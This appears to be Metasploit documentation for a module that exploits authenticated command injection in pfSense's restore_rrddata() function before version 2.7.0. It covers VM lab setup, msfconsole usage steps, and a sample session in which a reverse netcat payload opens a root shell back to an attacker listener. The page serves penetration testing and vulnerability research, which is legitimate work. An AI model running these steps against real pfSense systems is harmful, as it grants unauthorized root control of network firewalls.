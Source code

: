 ## Vulnerable Application

This module exploits an authenticated command injection vulnerability in the `restore_rrddata()` function of
pfSense prior to 2.7.0 which allows an authenticated attacker with the `WebCfg - Diagnostics: Backup & Restore` privilege
to execute arbitrary operating system commands as the `root` user.

This module has been tested successfully on version 2.6.0-RELEASE.

### Installing the Application
Download the ISO from [pfSense 2.6.0-RELEASE](https://atxfiles.netgate.com/mirror/downloads/pfSense-CE-2.6.0-RELEASE-amd64.iso.gz)
and then create a VMWare or VirtualBox VM using this ISO.

Note that you may wish to use the BIOS boot method when prompted for which method to use for installation, 
rather than ZFS or UEFI for testing purposes, just to simplify setup. Otherwise you can accept the default settings.

Once installation is finished you should be prompted to reboot. Reboot, then enter `n` when asked if you want to set up VLANs.

For the WAN prompt enter `em0` which should work, or whatever one other than `a` that appears in the prompt and hit ENTER.

Wait for setup to complete then try to browse to `http://<IP ADDRESS SHOWN HERE>/` replacing the
placeholder with the IP address shown in the prompt. You should see the login page for pfSense.

Log in with username `admin` and password `pfsense`. There should be a setup GUI that appears. Accept all the defaults
and keep clicking `Next` at each of the steps and then `Finish` at the final step. Finally click `Accept` on the export
warning page and `Close` on the following popup. You should now see the main dashboard and should be ready to test the
module.

## Verification Steps
1. Start `msfconsole`
2. Do: `use exploit/unix/http/pfsense_config_data_exec`
3. Do: `set RHOST [IP]`
4. Do: `set USERNAME [username]`
5. Do: `set PASSWORD [password]`
6. Do: `set LHOST [IP]`
7. Do: `exploit`

## Options

## Scenarios

### pfSense Community Edition 2.6.0-RELEASE

```
msf6 exploit(unix/http/pfsense_config_data_exec) > use exploit/unix/http/pfsense_config_data_exec 
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(unix/http/pfsense_config_data_exec) > set RHOST 1.1.1.1
RHOST => 1.1.1.1
msf6 exploit(unix/http/pfsense_config_data_exec) > set LHOST 2.2.2.2
LHOST => 2.2.2.2
msf6 exploit(unix/http/pfsense_config_data_exec) > exploit

[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] pfSense version: 2.6.0-RELEASE
[+] The target is vulnerable.
[*] Command shell session 1 opened (2.2.2.2:4444 -> 1.1.1.1:21942) at 2023-03-26 02:10:48 +0300

id
uid=0(root) gid=0(wheel) groups=0(wheel)
whoami
root
```
